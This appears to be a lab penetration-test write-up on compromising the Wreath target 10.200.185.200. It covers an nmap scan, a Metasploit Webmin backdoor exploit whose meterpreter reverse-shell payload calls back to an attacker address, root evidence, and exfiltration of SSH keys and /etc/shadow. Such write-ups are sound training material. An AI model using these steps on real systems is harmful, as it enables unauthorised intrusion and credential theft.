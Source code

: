 ## 10.200.185.200

### Initial Information
The target is publicly available and an IP address was provided.

Our goal is to compromise the exposed target and establish a base from which further penetration into the private network is possible.

## Enumeration
### NMAP Scans

```bash
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN 10.200.185.200
```

revealed 4 open TCP ports:

| port | service |
| --- | --- |
| tcp:22 | SSH | 
| tcp:80 | HTTP | 
| tcp:443 | HTTPS |
| tcp:9090 | zeus-admin |
| tcp:10000 | MiniServ 1.890 (Webmin httpd) |

### port 22
* OpenSSH 8.0 (protocol 2.0)
* no further action

### port 80 / 443
* both ports produce a failed redirect to thomaswreath.thm, indicating incorrectly configured DNS.
* adding this entry to the attacker `hosts` configuration file allows onward access to the underlying website:
```
10.200.185.200 thomaswreath.thm
```
* the pages contain personal information for Mr Thomas Wreath including: history of career and education, interests, personal contact information, a photo of the individual.

### port 10000
* webmin service is exposed and version reported is 1.89
* navigating to this location confirms the presence of a webmin login portal
![webmin](assets/images/webmin_portal.png "webmin portal")
* a search against exploit-db shows a vulnerability for webmin version <1.920<sup>[1]</sup> which allows unauthenticated remote code execution.

## Initial Exploitation
A metasploit module is available for the webmin vulnerability - use of which provides root access to the machine with the following configuration:

```
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     10.200.185.200   yes       The target host(s), see https://gith
                                         ub.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface
                                         to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to
                                          listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   SSLCert                     no        Path to a custom SSL certificate (de
                                         fault is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (def
                                         ault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.50.182.73     yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)
```

## Evidence
```bash
[root@prod-serv ~]$ hostname; whoami; ip a
prod-serv
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:38:98:fb:ba:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.200.185.200/24 brd 10.200.185.255 scope global dynamic noprefixroute eth0
       valid_lft 2735sec preferred_lft 2735sec
    inet6 fe80::38:98ff:fefb:bad7/64 scope link 
       valid_lft forever preferred_lft forever

```

## Establishing Persistence
Our scans had previously revealed that SSH access to the box was possible. Investigation of the `/root` directory revealed a `.ssh` folder containing keys which could be used for remote access.  This directory was exfiltrated for future connections.

The `/etc/shadow` file was exfiltrated for investigation.

## Move Laterally
Determining hosts **prod-serv** has connected to:
```bash
[root@prod-serv ~]$ arp -a
ip-10-200-185-1.eu-west-1.compute.internal (10.200.185.1) at 02:81:d2:e0:8a:a3 [ether] on eth0

```


---
##### [1] https://www.exploit-db.com/exploits/47230, accessed 2021-12-27 